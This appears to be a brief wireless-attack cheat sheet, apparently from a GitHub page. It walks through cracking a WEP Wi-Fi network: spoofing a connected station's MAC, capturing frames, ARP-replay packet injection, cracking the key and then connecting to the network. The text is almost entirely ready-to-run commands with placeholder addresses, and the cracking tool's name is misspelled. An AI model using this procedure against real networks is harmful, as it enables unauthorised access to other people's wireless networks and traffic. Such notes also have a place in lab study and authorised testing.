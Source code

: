 #### WEP

Spoof MAC of a connected station
```
ip link set wlan1mon down
macchanger -m XX:XX:XX:XX:XX:XX wlan1mon
ip link set wlan1mon up
ip a
```

Capture frames
```
airodump-ng wlan1mon -c X --bssid XX:XX:XX:XX:XX:XX --essid ESSID -w wep_capture
```

Injection
```
aireplay-ng -3 -b XX:XX:XX:XX:XX:XX -h <SPOOFED_MAC> wlan1mon
```

Notice the #Data packets and stopped both tools after around 50000.

Cracking
```
aircrak-ng wep_capture.cap
```

Connection
```
iwconfig wlan0 essid ESSID key XX:XX:XX:XX:XX
ifconfig wlan0 up
dhclient wlan0
```